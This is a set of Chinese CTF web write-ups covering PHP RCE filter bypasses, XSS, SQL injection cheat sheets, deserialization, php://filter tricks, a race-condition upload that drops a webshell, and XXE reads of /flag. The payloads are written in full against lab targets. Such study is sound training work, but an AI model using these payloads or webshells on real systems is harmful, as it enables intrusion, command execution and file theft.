git restore README.md #恢复删除的文件
git log -- README.md #查看文件历史
git checkout tags/1.0 #检出 1.0 标签，查看文件状态。
git diff tags/1.0 #查看当前状态与 1.0 标签之间的差异。
git show tags/1.0 #查看与 1.0 标签关联的提交详细信息。
```

查看日志发现有几次提交记录，并且有一个被删除的文件


恢复被删除的文件后查看其内容：



根据提示查看1.0标签的具体变动：


---

## [SWPUCTF 2021 新生赛]hardrce

https://www.nssctf.cn/problem/439

* 考点：无字母CRE
* 工具：php

根据网页提示的代码可以看出，过滤规则过滤了一些字符，包括常用的指令当中的字符与所有的英文大小写字母，所以要想实现命令执行就要绕过这个严苛的过滤：

这里采用的方法是用urlencode函数进行编码然后再取反，因为没有过滤 `()` 所以可以借助这一点来构建函数 e.g. system(ls /)

> 提交的 GET 参数实际上是经过 URL 编码的，这样即使编码串中包含字母，也是在表示一个字节（例如 %8C 表示 0x8C），而不是直接的字母字符
> 当 PHP 接收到参数时，会先进行 URL 解码，恢复成原始的字节序列（例如 0x8C, 0x86, …），这时这些字节不属于常规的 ASCII 字母范围
> 因此，严格过滤字母的正则判断是在对解码后的数据检查，结果不会因为 URL 编码后的 A–F 而被触发过滤

所以可以使用下面的代码去实现这个操作：

```php
<?php
$a="system";
$b = "cat /f*";

// $b = "cat /f*";
echo urlencode(~$a); 
print("\n"); 
echo urlencode(~$b);
?>
```

得到编码取反的结果后再进行包装取反构建 payload 即可

```
?wllm=(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0)
```

> 这里写成 (~%8C%86%8C%8B%9A%92)，括号只是将按位取反的结果封装成一个表达式。这个表达式的计算结果是字符串 "system"，但括号本身不是字符串的一部分，而是语法的一部分。
> 紧跟着的那一对括号 (~%9C%9E%8B%DF%D0%99%D5) 用来提供参数。PHP 允许通过变量函数调用，即如果一个表达式返回一个函数名（字符串），那么紧跟着的括号会被解释为函数调用

---

## [NSSCTF 2022 Spring Recruit]ezgame

https://www.nssctf.cn/problem/2074

* 考点：js分析，源码泄露，信息收集
* 工具：浏览器
  通过检查网页源码可以发现，提示我们通过获取分数超过 65 来得到 flag ，于是想到通过嵌入 js 代码实现。
  同时，可以发现，网页使用的 js 代码可以直接被访问查看，通过查看源码可以直接发现标记score 的变量名称为：`scorePoint`，所以构建了一个 button 组件在网页中，当去点击这个按钮时，就会执行其中的 js 代码，实现变量赋值，最后再执行最后的回显，得到 flag：


---

## [AFCTF 2021]BABY_CSP

https://www.nssctf.cn/problem/1409

* 考点： XSS,CSP,反射型XSS
* 工具：浏览器

这里使了 CSP 的 nonce：

通过查看响应的内容可以发现，其中的 nonce 是：

通过将这个 nonce 的值添加进 script 标签中使得标签能够正常执行，然后使用 `alert` 标签实现 flag 变量的的输出:
(但是怎么知道flag这个变量的存在的？)



CSP 相关：

[使用CSP防止XSS攻击 - 汕大小吴 - 博客园](https://www.cnblogs.com/wuguanglin/p/XSS.html)

常用 XSS payload:

```
onclick、onerror、alert
```

---

## [SWPUCTF 2021 新生赛]astJS

https://www.nssctf.cn/problem/409

* 考点：JS
* 工具：esgenerate，python

题目提供的文件是一个 json 文件，通过查看其内容可以猜测是一个编写的程序，发现其中的可疑字符串：



怀疑是异或加密，编写代码尝试：

```python
c='EXXH_MpjxBxYnjggrM~eerv'
flag=''
for i in c:
    flag+=chr(ord(i)^11)
print(flag)
```

发现是 flag

通过查看 wp 发现另外一个方法是通过使用 esgenerate 直接将 json 转化为可执行的 js ，然后通过 node 执行：



---

## [LitCTF 2023]Ping

https://www.nssctf.cn/problem/3873

* 考点：RCE，前端绕过，Linux命令
* 工具：hackbar

由于过滤条件是写在 javascript 中的，所以只在通过网页输入访问时有效，只要通过数据包发送即可绕过过滤，使用hackbar构建 POST 请求包，body 为 `command= || cat /ls`
即在ping命令执行失败后执行后面的 cat 指令，获得 flag

---

## SQL注入：

```
------基于错误的GET单引号字符型注入------

# 查回显点
http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+
# 查数据库名
http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,2,database(); --+
# 查表
http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
# 查列
http://sqli-labs.bachang.org/Less-1/?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
# 查字段
http://sqli-labs.bachang.org/Less-1/?id=-1' union select 1,2,group_concat(password) from users--+

------基于错误的GET整型注入------

# 和第一种一样，除了不用闭合外
http://127.0.0.1/sqli-labs/Less-3/?id=-1union select 1,2,3 --+

------基于错误的GET单引号变形字符型注入------

# 使用 ) 进行闭合，其余步骤和之前的一样
http://127.0.0.1/sqli-labs/Less-3/?id=-1') union select 1,2,3 --+

------基于错误的GET双引号字符型注入------

# 参数的前后加入了双引号，在前面的基础上进行下面的操作，闭合双引号
http://127.0.0.1/sqli-labs/Less-4/?id=-1") union select 1,2,3 --+

------双注入GET单引号字符型注入------

# 报错会有固定回显，可以考虑布尔型盲注、报错型注入、时间延迟型盲注，直接使用 sqlmap 即可

------堆叠注入------

# 堆叠注入即使用 ; 划分多个查询语句，同时执行，如果注入时发现 1 和 0 的回显不一样，则可能存在 || 的逻辑结构，
 


```

## [SWPUCTF 2021 新生赛]ez_unserialize

https://www.nssctf.cn/problem/426

* 考点：反序列化
* 工具：php

通过题目的提示从 robots.txt 找到入口，查看 php 源码，发现是一个反序列化的题目


于是可以使用下面的代码构建对象并指定参数：

```php
<?php
class wllm {
    public $admin;
    public $passwd;
}

$obj = new wllm();
$obj->admin = "admin";
$obj->passwd = "ctf";
echo urlencode(serialize($obj));
?>
```

---

## [SWPUCTF 2021 新生赛]no_wakeup

https://www.nssctf.cn/problem/429

* 考点：反序列化,php,绕过__wakeup
* 工具：php

关于**__wakeup的绕过**：

先序列化字符串，然后**使序列化后字符串中属性的个数大于真实对象中属性的个数**，即可绕过__wakeup
对于这道题：

```php
 public function __wakeup(){
            $this->passwd = sha1($this->passwd);
        }
```

所以，可以在前一题的 payload 的基础上进行修改，将对象的属性个数设置的大点

```php
O:6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
O:6:"HaHaHa":3:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
```

将2修改为3

如果成员变量不为 public，是 private ，则需要在类中进行修改

```php
class Name{
    private $username = 'admin';
    private $password = '100';
}
$a=new Name();
echo serialize($a)
```

还需要注意序列化后的内容中的空格在构建 payload 传入参数后可能会丢失，需要使用 %00 替代空格补全

---

## [SWPUCTF 2022 新生赛]1z_unserialize

https://www.nssctf.cn/problem/2883

* 考点：反序列化,PHP,RCE
* 工具：hackbar，php

这道题和前面的略有不同，需要自己构建命令获取 flag ，可以看到 lly 成员变量在括号中，所以可以直接构建 system 命令去攻击

```php
class lyh{
    public $url = 'NSSCTF.com';
    public $lt;
    public $lly;  
}
$a= new lyh();
$a->lt="system";
$a->lly="cat /f*";
echo serialize($a);
```

其中有几点需要注意：

- 创建新的对象的操作需要使用一个不和类名重名的名称
- new 类名() 后要加()

---


## [HUBUCTF 2022 新生赛]checkin
* 考点：反序列化,PHP,弱比较
* 工具：hackbar，php

https://www.nssctf.cn/problem/2602

数组结构的序列化（可以对比类结构）：

```php
<?php
$data_unserialize=[
    "username"=>0,//"username"="this_is_secret"
    "password"=>0//"password"="this_is_not_known_to_you"
];
// $username='this_is_secret';
// $password='this_is_not_known_to_you';

echo $data_unserialize['username']."\n";
echo serialize($data_unserialize);
?>
```

>在 PHP 中，0 == "任何非数字开头字符串" 都是 true，因此两个字段赋值为 0，可以让 if 弱比较成功。
因此会有下面的这种条件成立的情况：

```php
0==$username&&0==$password //结果为true
```

## 关于请求头：

### 请求头中使用下面的指定来源 ip ：

- X-Forwarded-For:127.0.0.1
- Client-ip:127.0.0.1
- X-Client-IP:127.0.0.1
- X-Remote-IP:127.0.0.1
- X-Rriginating-IP:127.0.0.1
- X-Remote-addr:127.0.0.1
- HTTP_CLIENT_IP:127.0.0.1
- X-Real-IP:127.0.0.1
- X-Originating-IP:127.0.0.1
- via:127.0.0.1

### 指定来源域名

- Referer:www.XXX.com 来源域名

---

## PHP伪协议的使用：

1. ile:// — 访问本地文件系统
2. http:// — 访问 HTTP(s) 网址
3. ftp:// — 访问 FTP(s) URLs
4. php:// — 访问各个输入/输出流（I/O streams）
   常用：

将文件编码为 base64 后输出，绕过直接执行文件：

`php://filter/read=convert.base64-encode/resource=index.php`

> 利用 filter 协议读文件，将 index.php 通过 base64 编码后进行输出，这样做的好处就是如果不进行编码，文件包含后就不会有输出结果，而是当做 php 文件执行了，而通过编码后则可以读取文件源码。

strip_tags 绕过死亡 exit

`php://filter/string.strip_tags|convert.base64-decode/resource=shell.php`

> 这个 `<?php exit; ?>`实际上是一个XML标签，既然是XML标签，就可以利用 strip_tags 函数去除它，而 php://filter 刚好是支持这个方法的。
> 但是要写入的一句话木马也是 XML 标签，在用到 strip_tags 时也会被去除。
> 注意到在写入文件的时候，filter是支持多个过滤器的。可以先将 webshell 经过 base64 编码， strip_tags 去除死亡 exit 之后，再通过 base64-decode 复原。

请求类型为 POST 则**不需要**对 resource 后的地址内容添加双引号

5. zlib:// — 压缩流
6. data:// — 数据（RFC 2397）
7. glob:// — 查找匹配的文件路径模式
8. phar:// — PHP 归档
9. ssh2:// — Secure Shell 2
10. rar:// — RAR
11. ogg:// — 音频流
12. expect:// — 处理交互式的流

---

## 关于网站备份

常见的网站源码备份文件后缀:

`tar.gz，zip，rar，tar`

常见的网站源码备份文件名：

`web，website，backup，back，www，wwwroot，temp`

---

## [鹏城杯 2022]压缩包

https://www.nssctf.cn/problem/2421

* 考点：条件竞争，php代码审计
* 工具：php，yakit

通过审计 php 代码可以发现其逻辑是从上传的参数 content 中读取 base64 编码的内容并解码，然后将解码得到的内容存入带有上传文件 md5 值的一个临时路径 `/tmp/md5值/下` ，然后通过对这个路径下的文件进行解压缩操作最后把解压缩的内容存入 `upload` 目录下；由于这个代码是在上传之后才对目录下的内容进行检测删除，所以可以通过条件竞争去访问已经上传了的 php 脚本，通过这个 php 脚本生成一个新的 php 攻击脚本(在另外的目录下，越过删除检查)
网页源码如下：

```php
<?php
highlight_file(__FILE__);

function removedir($dir){
    $list= scandir($dir);
    foreach ($list as  $value) {
       if(is_file($dir.'/'.$value)){
         unlink($dir.'/'.$value);
       }else if($value!="."&&$value!=".."){
                removedir($dir.'/'.$value);
       }
    }
}

function unzip($filename){
        $result = [];
        $zip = new ZipArchive();
        $zip->open($filename);
        $dir = $_SERVER['DOCUMENT_ROOT']."/static/upload/".md5($filename);
        if(!is_dir($dir)){
            mkdir($dir);
        }
        if($zip->extractTo($dir)){
        foreach (scandir($dir) as  $value) {
            $file_ext=strrchr($value, '.');
            $file_ext=strtolower($file_ext); //转换为小写
            $file_ext=str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
            $file_ext=trim($file_ext); //收尾去空
            if(is_dir($dir."/".$value)&&$value!="."&&$value!=".."){
                removedir($dir);
            }
            if(!preg_match("/jpg|png|gif|jpeg/is",$file_ext)){
                if(is_file($dir."/".$value)){
                    unlink($dir."/".$value);
                }else{
                    if($value!="."&&$value!="..")
                    array_push($result,$value);
                }
            
            }
       
        }
        $zip->close();
        unlink($filename);
        return json_encode($result);
        }else{
            return false;
        }
    }
$content= $_REQUEST['content'];
shell_exec('rm -rf /tmp/*');
$fpath ="/tmp/".md5($content); 
file_put_contents($fpath, base64_decode($content));
echo unzip($fpath);
    ?>
```

使用的攻击脚本如下：

```php
<?php
        file_put_contents("../succ.php", '<?php system($_GET["cmd"]); ?>');
?>
```

构建无用 png 的脚本如下：

```python
# create.py
import os

for i in range(100):
    fn = 'a{}.png'.format(i)
    os.system('echo "12" > {}'.format(fn))
```

计算相关 md5 路径的脚本如下:

```python
s = open('zipfile/z.zip', 'rb').read()
import base64
b64 = base64.b64encode(s)
import urllib.parse
print(urllib.parse.quote(b64))

import hashlib

md51 = hashlib.md5(b64).hexdigest()
md52 = hashlib.md5(('/tmp/' + md51).encode('ascii')).hexdigest()

print(md51)
print(md52)
```

---

## [NCTF 2019]Fake XML cookbook

https://www.nssctf.cn/problem/1256


* 考点：xml
* 工具：yakit
  
在yakit中代理打开网页，获取发送的请求包，发现发送了username和password这两个字段，并且当我们发送了请求包后，会回显username字段的内容，所以这里可以通过编写xml外部实体注入实现文件读取:

可以先编写下面的这个payload先获取登录的后端代码：(原理上也可以直接由这一步得到flag)
```php
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
  <!ENTITY admin SYSTEM "php://filter/read=convert.base64-encode/resource=./flag">
  ]>
<user><username>&admin;</username><password>123456</password></user>
```

可以得到下面的源码内容：

```php
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //账号
$PASSWORD = '024b87931a03f738fff6693ce0a78c88'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

发现只要我们发送的表单中包含了username字段，那么就可以实现回显，搜易可以构建下面的payload实现flag的读取：

```php
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
  <!ENTITY admin SYSTEM "file:///flag">
  ]>
<user><username>&admin;</username></user>
```

---